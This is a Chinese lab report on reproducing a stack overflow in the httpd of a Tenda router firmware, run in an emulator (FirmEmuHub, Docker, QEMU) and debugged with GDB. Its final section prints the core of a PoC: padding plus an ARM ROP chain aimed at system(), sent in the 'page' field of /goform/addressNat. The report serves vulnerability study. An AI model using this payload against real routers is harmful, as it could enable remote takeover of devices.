# 实验八：IoT 设备栈溢出漏洞利用实验

## 一、实验目的

本实验围绕 IoT 设备固件中的栈溢出漏洞展开，主要目的是在系统态固件仿真环境中完成漏洞触发与调试验证。通过本实验，熟悉使用 FirmEmuHub 对路由器固件进行仿真的基本流程，掌握在 Docker 容器中运行固件 Web 服务的方法，并理解 QEMU 在 ARM 程序仿真中的作用。

本实验的目标程序为固件中的 `httpd` 服务程序，该程序为 32 位 ARM 架构程序，漏洞触发点位于处理 POST 请求的函数中。实验过程中，通过 `qemu-arm-static` 以调试模式启动目标程序，再使用 `gdb-multiarch` 连接调试端口，并在漏洞处理函数地址 `0x00079d94` 处设置断点。随后运行 PoC 脚本发送构造好的 HTTP 请求，观察程序是否能够命中断点并发生异常。

通过本次实验，进一步理解栈溢出漏洞的触发过程，掌握 ARM 架构程序的基本动态调试方法，能够结合 PoC 返回结果、GDB 断点信息和程序异常现象，对漏洞是否成功触发进行验证。

## 二、实验环境

| 项目        | 内容                        |
| --------- | ------------------------- |
| 宿主机系统     | Windows                   |
| 虚拟机系统     | Ubuntu 24.04.4 LTS        |
| 虚拟化平台     | Oracle VirtualBox         |
| 固件仿真工具    | FirmEmuHub                |
| 容器环境      | Docker                    |
| 实验目标      | `BM-2024-00012`           |
| 目标程序      | `squashfs-root/bin/httpd` |
| 程序架构      | 32 位 ARM                  |
| 调试工具      | `gdb-multiarch`           |
| 模拟执行工具    | `qemu-arm-static`         |
| PoC 脚本    | `POC_Pro.py`              |
| Python 依赖 | `pwntools`                |
| 访问端口      | `127.0.0.1:32768`         |
| 断点地址      | `0x00079d94`              |


## 三、实验原理与基础知识

本实验基于系统态固件仿真完成 IoT 设备漏洞复现。IoT 路由器固件通常运行在 ARM 等嵌入式架构设备上，无法直接在普通 x86_64 主机中运行，因此需要借助 FirmEmuHub、Docker 和 QEMU 构建仿真环境。FirmEmuHub 用于组织固件文件系统、构建 Docker 容器并启动仿真环境；Docker 提供隔离的运行环境；`qemu-arm-static` 则用于在 x86_64 Ubuntu 虚拟机中模拟执行 ARM 架构的 `httpd` 程序。

为了分析目标程序的运行过程，本实验使用 `gdb-multiarch` 进行远程调试。通过 `qemu-arm-static -g 1234` 启动 `httpd` 后，程序会等待 GDB 连接；随后在 GDB 中使用 `target remote :1234` 连接调试端口，并通过 `set architecture arm` 指定目标架构。本实验在地址 `0x00079d94` 处设置断点，用于判断 PoC 请求是否进入漏洞处理函数 `fromAddressNat`，从而验证请求是否到达预期的处理路径。

本实验的核心漏洞类型为栈溢出。栈溢出通常发生在程序将外部输入写入固定大小的栈缓冲区时，如果没有正确检查输入长度，过长的数据可能破坏栈中的返回地址或其他关键数据，进而影响程序控制流。根据实验目标及 PoC 设计，目标程序 `httpd` 在处理 `/goform/addressNat` 接口中的 `page` 参数时存在栈溢出风险。实验中通过 GDB 命中目标函数断点、继续执行后收到 `SIGSEGV` 信号，以及服务在调试器暂停期间无法继续响应等现象，完成对漏洞触发过程的动态验证。需要说明的是，本实验重点是复现异常触发；若要进一步证明返回地址被覆盖或实现控制流劫持，还需要补充寄存器、栈内存及崩溃指令等分析。

从 PoC 设计看，本实验还涉及 ARM 架构下 ROP 利用的基本思路。PoC 中通过 `p32()` 以 32 位小端格式打包地址，并组合 `pop_r3_pc`、`system_addr`、`mov_r0_sp_blx_r3` 等 gadget。其目标是通过溢出覆盖栈上的控制数据，使程序在后续执行中调用 `system()`。其中，`page=` 参数是漏洞触发入口，长字符串用于填充缓冲区并覆盖关键位置，后续地址则用于构造跳转链。由于本次实验主要通过断点命中、`SIGSEGV` 和服务无响应验证漏洞触发，因此报告结论限定在“触发栈溢出并造成程序异常”层面，不直接扩大为“已完成稳定 ROP 控制流劫持”。


## 四、实验内容

### （一）系统态固件仿真环境准备与容器启动

#### 1. 检查 Docker 环境

   首先在 Ubuntu 虚拟机中检查 Docker 是否安装成功，并确认当前 Docker 服务可以正常运行。通过执行 `docker --version` 查看 Docker 版本信息，结果显示当前环境中的 Docker 版本为 `29.1.3`。随后执行 `docker ps` 查看正在运行的容器，能够正常输出容器列表字段，说明 Docker 命令可用，实验所需的容器环境已经准备完成。

   ```bash
   docker --version
   docker ps
   ```

   

#### 2. 修改目标固件的启动脚本

   根据实验手册要求，进入 `BM-2024-00012/emulation` 目录，对其中的 `run.sh` 文件进行修改。原脚本最后会直接执行 `qemu-arm -L ./ bin/httpd` 启动目标 Web 服务，但本实验需要后续使用 GDB 对 `httpd` 进行调试，因此不能让程序自动运行。

   在 `run.sh` 文件末尾，将原来的启动命令注释掉，并添加：

   ```bash
   tail -f /dev/null
   ```
   

   这样可以让容器启动后保持运行状态，便于后续通过 `docker exec` 创建多个容器内终端，分别用于启动目标程序和连接 GDB 调试。

   ```bash
   cd ~/mobile/chap0x08/FirmEmuHub-main/Benchmark/BM-2024-00012/emulation
   nano run.sh
   chmod +x run.sh
   ```

   

#### 3. 确认基础镜像与启动 FirmEmuHub

   修改完成后，回到 FirmEmuHub 主目录，首先检查实验所需的基础镜像 `fitzbc/fat_ubuntu1604:v6` 是否已经存在。确认镜像存在后，执行 `emulation.py` 启动 `BM-2024-00012` 固件仿真环境。

   ```bash
   cd ~/mobile/chap0x08/FirmEmuHub-main
   docker images | grep fat_ubuntu1604
   python3 emulation.py -b ./Benchmark/BM-2024-00012
   ```

   执行过程中，FirmEmuHub 会根据目标目录下的 `Dockerfile` 构建镜像，并以 `BM-2024-00012/emulation` 作为构建上下文。构建过程中可以看到 Docker 从 `fitzbc/fat_ubuntu1604:v6` 镜像开始执行，并逐步完成后续构建步骤。

   
   

#### 4. 确认容器成功启动

   Docker 镜像构建完成后，FirmEmuHub 自动执行 `docker run` 命令启动目标容器。实验中可以看到镜像成功构建并被标记为 `bm-2024-00012:latest`，随后启动了名为 `bm-2024-00012_1d69jn` 的容器。

   由于前面已经将 `run.sh` 的最后一行改为 `tail -f /dev/null`，因此 Web 服务不会自动启动，FirmEmuHub 检测服务时会出现 `Waiting for service to start` 或 `Service failed to start`。这并不影响实验继续进行，因为本实验需要手动进入容器启动 `httpd` 程序并进行调试。此处只需确认容器处于运行状态即可。

   ```bash
   docker ps
   ```

   通过 `docker ps` 可以看到容器状态为 `Up`，端口映射为：

   ```text
   0.0.0.0:32768->80/tcp
   ```

   说明容器已经成功启动，Ubuntu 虚拟机作为 Docker 宿主环境，可以通过 `127.0.0.1:32768` 访问容器内的 80 端口。

   

#### 5. 进入容器并准备调试环境

   使用 `docker exec` 进入已经启动的容器，并进入 `squashfs-root` 目录。该目录是固件文件系统的根目录，其中包含目标程序 `bin/httpd`。命令中的容器 ID 为本次实验实际生成的 ID，重新构建或启动容器后应以 `docker ps` 的结果为准。

   ```bash
   docker exec -it 557329daf35a /bin/bash
   cd /qemu_arm/squashfs-root
   ```

   进入目标目录后，先更新容器内软件源，并安装 `qemu-user-static`。该工具用于在当前 x86_64 容器环境中模拟运行 ARM 架构程序。

   ```bash
   apt update
   apt install -y qemu-user-static
   ```

   

#### 6. 复制 QEMU 并创建必要目录

   安装完成后，将 `qemu-arm-static` 复制到当前 `squashfs-root` 目录下，使其能够在 `chroot` 环境中使用。随后创建程序运行所需的目录，包括 `proc/sys/kernel`、`etc` 和 `proc/sys/net/ipv4`，用于修复固件程序运行时可能缺失的环境路径。

   ```bash
   cp $(which qemu-arm-static) ./
   mkdir -p ./proc/sys/kernel
   mkdir -p ./etc
   mkdir -p ./proc/sys/net/ipv4
   ```

   

#### 7. 以调试模式启动目标程序

   在容器内执行 `chroot` 命令，使用 `qemu-arm-static` 以远程调试模式启动目标程序 `httpd`。其中 `-g 1234` 表示打开 GDB 调试端口 `1234`，程序启动后会等待 GDB 连接。

   ```bash
   chroot ./ ./qemu-arm-static -g 1234 ./bin/httpd
   ```

   执行该命令后，终端停留在等待状态，这是正常现象，说明目标程序已经进入等待调试器连接的状态。

   

#### 8. 启动 GDB 调试器

   另开一个容器终端，再次进入 `/qemu_arm/squashfs-root` 目录，并启动 `gdb-multiarch`。该工具支持多架构程序调试，可以用于连接 QEMU 提供的 ARM 程序远程调试端口。

   ```bash
   docker exec -it 557329daf35a /bin/bash
   cd /qemu_arm/squashfs-root
   gdb-multiarch
   ```

   

#### 9. 连接远程调试端口并加载目标程序文件

   在 GDB 中连接容器内的 `1234` 端口，并使用 `file` 命令加载目标程序文件。由于调试对象是 ARM 架构程序，而 GDB 启动时显示的是宿主平台配置，因此后续还需要手动指定目标架构。

   ```gdb
   target remote :1234
   file ./bin/httpd
   ```

   连接后可以看到 `Remote debugging using :1234`，说明 GDB 已经成功连接到 QEMU 调试端口。随后加载 `./bin/httpd` 的可执行文件信息。虽然该程序缺少完整调试符号，仍然可以根据已知地址和可识别的函数信息设置断点并控制程序运行。

   

---

### （二）目标程序调试与 Web 服务启动验证

#### 1. 设置目标程序架构并添加断点

   在 GDB 成功连接 QEMU 远程调试端口并加载 `./bin/httpd` 后，由于目标程序是 ARM 架构，而 GDB 启动时显示的是 `x86_64-linux-gnu` 宿主平台配置，因此需要手动指定目标架构为 ARM。随后在实验手册给出的函数地址 `0x00079d94` 处设置断点，用于验证 PoC 请求是否能够进入漏洞处理函数 `fromAddressNat`。

   ```gdb
   set architecture arm
   b *0x00079d94
   ```

   执行后，GDB 输出：

   ```text
   The target architecture is assumed to be arm
   Breakpoint 1 at 0x79d94
   ```

   说明 GDB 已经切换到 ARM 调试模式，并成功在目标地址处设置断点。

   

#### 2. 继续运行目标程序

   断点设置完成后，在 GDB 中执行 `c` 命令，使目标程序继续运行。此时，之前在另一个终端中通过 `qemu-arm-static -g 1234` 启动的 `httpd` 程序开始继续执行，并输出运行信息。

   ```gdb
   c
   ```

   在 `httpd` 运行终端中可以看到程序初始化输出，包括 `WeLoveLinux` 字样以及多次连接失败提示。这些提示不影响实验继续进行，关键是程序最终成功监听 Web 服务端口。

   终端中出现如下关键信息：

   ```text
   httpd listen ip = 192.168.0.1 port = 80
   webs: Listening for HTTP requests at address 192.168.0.1
   ```

   这说明目标固件中的 `httpd` Web 服务已经在仿真环境中成功启动。

   

#### 3. 使用 curl 验证 Web 服务访问状态

   目标服务启动后，在 Ubuntu 普通终端中使用 `curl` 访问宿主机映射端口 `32768`，验证容器内 Web 服务是否能够被外部访问。

   ```bash
   curl -I http://127.0.0.1:32768
   ```

   返回结果显示 HTTP 状态码为 `302 Redirect`，并且响应头中包含：

   ```text
   Server: Http Server
   Location: http://127.0.0.1:32768/main.html
   ```

   这说明访问根路径时，Web 服务会自动重定向到 `/main.html` 页面，证明 Ubuntu 虚拟机与容器内目标 Web 服务之间的端口映射正常，固件 Web 服务已经可以访问。

   

#### 4. 浏览器访问 Tenda Web 管理页面

   为进一步验证 Web 服务的可用性，在浏览器中访问：

   ```text
   http://127.0.0.1:32768/main.html
   ```

   页面成功显示 Tenda 路由器 Web 管理界面，包括左侧功能菜单、网络状态页面、LAN 口 IP `192.168.0.1`、软件版本信息等内容。说明固件 Web 前端页面已经正常加载，系统态固件仿真环境运行成功。

   该步骤表明目标 `httpd` 服务在 GDB 调试状态下仍能正常提供 Web 页面访问，为后续发送 PoC 请求并触发漏洞处理函数提供了基础条件。

   

---

### （三）PoC 漏洞触发与结果验证

#### 1. 修改 PoC 脚本中的目标地址

   在确认 Web 服务可以正常访问后，开始准备漏洞触发脚本。实验使用的 PoC 文件为 `POC_Pro.py`，该脚本通过 socket 构造 HTTP POST 请求，并向目标接口发送 payload。

   首先进入 PoC 所在目录，使用 `nano` 打开脚本文件，修改其中的目标 IP 和端口。由于本次实验中 Docker 将容器内 80 端口映射到 Ubuntu 虚拟机的 `32768` 端口，因此将脚本中的目标地址修改为：

   ```python
   ip = '127.0.0.1'
   port = 32768
   ```

   这样 PoC 脚本运行时会向 Ubuntu 虚拟机本地的 `32768` 端口发送请求，从而访问容器内运行的 Tenda Web 服务。

   

   PoC 的核心结构如下：

   ```python
   libc_base = 0x3fd9c000
   system_addr = 0x005a270 + libc_base
   pop_r3_pc = 0x00018298 + libc_base
   mov_r0_sp_blx_r3 = 0x00040cb8 + libc_base

   p1 = b'a' * 244 + b'a' * 4 + p32(pop_r3_pc) + p32(system_addr) + p32(mov_r0_sp_blx_r3)
   p2 = b'page=' + p1
   ```

   其中，`libc_base` 表示 PoC 中假定的 libc 基址，`system_addr` 为 `system()` 的运行时地址，`pop_r3_pc` 和 `mov_r0_sp_blx_r3` 是用于控制寄存器与跳转流程的 ARM gadget。`p1` 前半部分用于填充并触发 `page` 参数中的栈溢出，后半部分用于布置 ROP 链；`p2` 将 payload 放入 HTTP POST 表单字段 `page=` 中，使请求进入 `/goform/addressNat` 后触发漏洞逻辑。由于 ARM 为 32 位环境，地址使用 `p32()` 按小端序写入。

#### 2. 安装并验证 pwntools 依赖

   初次运行 PoC 时，程序报错提示：

   ```text
   ModuleNotFoundError: No module named 'pwn'
   ```

   这是因为 `POC_Pro.py` 中使用了：

   ```python
   from pwn import *
   ```

